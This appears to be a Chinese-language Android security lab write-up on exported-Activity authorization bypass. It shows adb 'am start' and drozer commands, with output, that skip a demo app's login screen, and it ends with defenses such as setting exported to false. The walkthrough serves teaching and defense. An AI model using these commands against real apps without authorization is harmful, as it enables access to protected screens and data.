 # Activity漏洞：越权绕过

#### 原理

在Android系统中，Activity默认是不导出的，如果设置了`exported = "true"`这样的关键值或者是添加了`<intent-filter>`这样的属性，那么此时Activity是导出的，就会导致越权绕过或者是泄露敏感信息等安全风险。
例如：

-   一些敏感的界面需要用户输入密码才能查看，如果没有对调用此Activity的组件进行权限验证，就会造成验证的越权问题，导致攻击者不需要密码就可以打开
-   通过Intent给Activity传输畸形数据使得程序崩溃拒绝服务
-   对Activity界面进行劫持



#### 实验步骤

绕过MainActivity的登录验证，直接访问受限的`SuccessActivity`。

##### 1. 编译安装、并运行该程序

只有当用户名为`admin`,密码为`123456`时，才会跳转到Success界面

##### 2. 越过登录页跳转到Success页

由于Success界面所属的`SuccessActivity`设置了`exported="true"`，导致可以被外部组件可访问。

###### 2.1 使用am命令

可直接输入命令

```bash
adb shell am start -D -n com.forgotten.activityoverpermission/com.forgotten.activityoverpermission.SuccessActivity
```

便可以直接来到`Success`界面

###### 2.2 使用dozer

```bash
dz> run app.package.attacksurface com.forgotten.activityoverpermission
Attack Surface:
  2 activities exported
  0 broadcast receivers exported
  0 content providers exported
  0 services exported
    is debuggable
dz> run app.activity.info -a com.forgotten.activityoverpermission
Package: com.forgotten.activityoverpermission
  com.forgotten.activityoverpermission.SuccessActivity
    Permission: null
  com.forgotten.activityoverpermission.MainActivity
    Permission: null

dz> run app.activity.start --component com.forgotten.activityoverpermission com.forgotten.activityoverpermission.SuccessActivity
```

也可以直接来到`Success`界面



#### 如何防范

-   私有Activity是相对安全的，创建activity时，设置exported属性为false。
-   公开Activity应，谨慎处理接收的Intent，有返回数据不包含敏感信息，不应发送敏感信息，收到返回数据谨慎处理